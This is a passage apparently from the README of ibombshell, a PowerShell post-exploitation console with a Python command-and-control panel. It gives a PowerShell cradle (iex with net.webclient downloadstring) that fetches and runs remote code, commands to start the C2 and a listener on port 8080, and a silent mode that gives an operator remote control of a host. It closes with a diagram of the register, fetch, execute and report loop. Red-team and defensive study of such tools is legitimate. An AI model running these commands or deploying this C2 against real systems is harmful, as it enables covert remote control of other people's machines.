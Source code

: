 Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/lucferbux/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```
